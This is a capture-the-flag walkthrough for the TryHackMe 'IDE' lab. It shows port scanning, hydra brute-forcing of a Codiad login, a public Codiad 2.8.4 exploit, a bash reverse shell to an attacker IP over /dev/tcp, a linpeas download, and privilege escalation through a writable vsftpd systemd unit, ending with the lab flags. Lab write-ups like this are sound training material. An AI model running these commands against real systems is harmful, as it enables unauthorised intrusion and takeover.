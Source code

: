 ```yaml
---
description: https://tryhackme.com/room/ide
---
```


# IDE

![](../../.gitbook/assets/10.10.45.178.png)

## Task 1 Flags

#### user.txt

```bash
rustscan -a 10.10.45.178 -- -n -sV -sC
```

![](<../../.gitbook/assets/Screenshot from 2022-03-19 14-16-14.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-19 14-17-21.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-19 14-17-52.png>)

```bash
lftp -u Anonymous, 10.10.45.178
```

![](<../../.gitbook/assets/Screenshot from 2022-03-19 14-27-12.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-19 14-34-37.png>)

```bash
hydra -l john -P /usr/share/wordlists/rockyou.txt \
'http-post-form://10.10.45.178:62337/components/user/controller.php?action=authenticate:username=^USER^&password=^PASS^&theme=default&language=en:Incorrect' \
-t64
```

![](<../../.gitbook/assets/Screenshot from 2022-03-19 14-42-55.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-19 14-43-35.png>)

```bash
searchsploit codiad 2.8.4
searchsploit -m 49705
```

![](<../../.gitbook/assets/Screenshot from 2022-03-19 14-49-13.png>)

```bash
python3 49705.py http://10.10.45.178:62337/ \
                 john password 10.6.9.176 4444 linux
```

![](<../../.gitbook/assets/Screenshot from 2022-03-19 14-52-37.png>)

```bash
echo 'bash -c "bash -i >/dev/tcp/10.6.9.176/4445 0>&1 2>&1"' | nc -lnvp 4444
```

```bash
nc -lnvp 4445
find / -type f -name user.txt 2>/dev/null
cat /home/drac/user.txt
ls -l /home/drac/user.txt
```

![](<../../.gitbook/assets/Screenshot from 2022-03-19 14-52-52.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-19 14-55-46.png>)

```bash
wget http://10.6.9.176/linpeas.sh
bash linpeas.sh
```

![](<../../.gitbook/assets/Screenshot from 2022-03-19 14-59-18.png>)

```bash
ssh drac@10.10.45.178
cat user.txt
```

![](<../../.gitbook/assets/Screenshot from 2022-03-19 15-01-47.png>)

{% hint style="success" %}
`02930d21a8eb009f6d26361b2d24a466`
{% endhint %}



#### root.txt

```bash
sudo -l
ls -l /lib/systemd/system/vsftpd.service
```

![](<../../.gitbook/assets/Screenshot from 2022-03-19 15-34-29.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-19 15-12-41.png>)

```bash
vim /lib/systemd/system/vsftpd.service
sudo /usr/sbin/service vsftpd restart
systemctl daemon-reload
```

![](<../../.gitbook/assets/Screenshot from 2022-03-19 15-18-42.png>)

```bash
nc -nvlp 4446
find / -type f -name root.txt 2>/dev/null
cat /root/root.txt
```

![](<../../.gitbook/assets/Screenshot from 2022-03-19 15-23-05.png>)

{% hint style="success" %}
`ce258cb16f47f1c66f0b0b77f4e0fb8d`
{% endhint %}

## Xmind

{% file src="../../.gitbook/assets/10.10.45.178.xmind" %}
